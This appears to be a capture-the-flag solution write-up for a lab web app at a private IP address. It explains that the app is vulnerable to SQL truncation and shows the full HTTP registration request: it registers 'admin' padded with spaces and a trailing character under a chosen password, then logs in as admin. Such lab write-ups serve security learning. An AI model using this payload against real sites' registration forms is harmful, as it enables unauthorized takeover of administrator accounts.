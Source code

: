 # Cate Bianca Solution

The application (http://172.16.5.11:7500) is vulnerable to SQL Truncation.
- More info @ [SQL Truncation Attack](https://linuxhint.com/sql-truncation-attack/)

```
POST /register_user.php HTTP/1.1
Host: 172.16.5.11:7500
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:87.0) Gecko/20100101 Firefox/87.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 44

username=admin+++++++++++++++b&password=test
```

Then login to the application using `admin:test`.
